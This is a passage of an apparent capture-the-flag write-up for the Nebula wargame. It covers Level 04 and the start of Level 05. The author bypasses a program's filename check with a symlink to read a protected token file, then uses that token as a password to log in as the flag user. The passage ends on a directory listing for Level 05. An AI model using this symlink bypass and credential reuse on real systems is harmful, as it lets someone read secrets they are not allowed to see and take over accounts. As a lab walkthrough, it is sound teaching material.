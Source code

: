   if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
    err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
{{< / highlight >}}

Ok, so let's take a look at what happens when we run the file
{{< highlight console >}}
level04@nebula:/home/flag04$ ls
flag04  token
level04@nebula:/home/flag04$ ./flag04
./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
{{< / highlight >}}

So we can't access token. Looking at the code there's a check to see if the file is named `token`. We can't simply copy the *token* file because it's read only by the flag user. So there's only one thing for it: symlinks

Then get the flag (some ssh output cut for brevity)
{{< highlight console >}}
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/myfile
level04@nebula:/home/flag04$ ./flag04 /tmp/myfile
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ ssh flag04@localhost

flag04@localhost's password:

flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}

So the output of the command is a *token* which is the term used for the password of the flag's user. Using this to logon as *flag04* and run `getflag`.

## Level 05 ##

> Check the flag05 home directory. You are looking for weak directory permissions 

Ok, let's do that
{{< highlight console >}}
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     420 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
{{< / highlight >}}
